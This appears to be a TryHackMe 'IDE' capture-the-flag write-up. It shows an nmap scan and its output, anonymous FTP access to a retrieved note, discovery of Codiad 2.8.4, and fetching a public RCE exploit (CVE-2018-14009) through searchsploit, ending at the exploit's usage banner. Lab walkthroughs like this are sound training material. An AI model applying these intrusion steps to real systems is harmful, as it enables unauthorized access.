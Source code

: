 # IDE | THM
### Difficulty Level: Easy
-------------------------------------------------

![image](https://cdn-images-1.medium.com/max/1000/1*Yo40ffh6pfA0xQPrlNkdiQ.png)

First, nmap scan to enumarate the system and save the output into a file:

```
nmap -p- -T4 -A -sC -sV  10.10.36.144 -oN nmap.txt
```

-p- Which means scan all ports instead of the 1000 common ports.

-T4 - Controls the timing of the scan. On that case, level 4 to make it aggresive and fast.   

-A - Aggresive scan. 

-sC - Deafult nmap script. 

-sV - Services version. 

-oN - Saves the output into a file. 

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-11 16:07 EDT
Nmap scan report for 10.10.36.144
Host is up (0.11s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.198.161
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/11%OT=21%CT=1%CU=39457%PV=Y%DS=2%DC=T%G=Y%TM=65EF
OS:664F%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)SEQ(SP
OS:=FE%GCD=1%ISR=10F%TI=Z%CI=Z%TS=A)SEQ(SP=FF%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%
OS:TS=A)SEQ(SP=FF%GCD=1%ISR=10F%TI=Z%CI=Z%TS=A)SEQ(SP=FF%GCD=1%ISR=10F%TI=Z
OS:%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M50
OS:8ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%
OS:W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=
OS:Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)I
OS:E(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   156.10 ms 10.9.0.1
2   157.85 ms 10.10.36.144

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 488.51 seconds
```
There are 4 open ports:

21 - FTP

22 - SSH

80 - HTTP

62337 - HTTP 

Start with FTP. There is Anonymous FTP login which means entry to FTP server without any credentials.

```bash
ftp anonymous@10.10.36.144
```

![image](https://cdn-images-1.medium.com/max/1000/1*MVloOCGmve8YyXK4X_TTDQ.png)

As we can see, there is a file. Let's get it.

![image](https://cdn-images-1.medium.com/max/1000/1*cMiKCn9e597HB3EliUrSGQ.png)

There is a message:

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

Let's move on to the browser and see what is the results of port 80.

![image](https://cdn-images-1.medium.com/max/1000/1*Hrz8Xm3kkwlF9JzIOuw9bw.png)

There is apache default page. On other cases, I used to keep scanning it with gobuster to enumarate other directories on the system.
But there is another port that runs HTTP service on it so let's check it:

```
http://<machine-address>:62337
```

![image](https://cdn-images-1.medium.com/max/1000/1*gpiBdpXmt5DCKZC__qVyOQ.png)

There is login page to codiad v2.8.4

What is codiad?
Codiad is an open-source web-based integrated development environment (IDE).

I tried some default credentials but without any success.
The next step is to check if there is any CVE to this codiad version to exploit with serachsploit.

```
searchsploit codiad 2.8.4
```

![image](https://cdn-images-1.medium.com/max/1000/1*sUkIiY8Sby0fFbYnDMXzXQ.png)

Grab the exploit into your machine:

```
searchsploit -m 49705.py
```

CVE-2018-14009: 
This exploit allows RCE on codiad v2.8.4.

While execute it, there is a banner with usage information.

```
python3 49705.py
Usage : 
        python 49705.py [URL] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
        python 49705.py [URL:PORT] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
Example : 
        python 49705.py http://localhost/ admin admin 8.8.8.8 8888 linux
        python 49705.py http://localhost:8080/ admin admin 8.8.8.8 8888 windows
Author : 
        WangYihang <wangyihanger@gmail.com>
```


































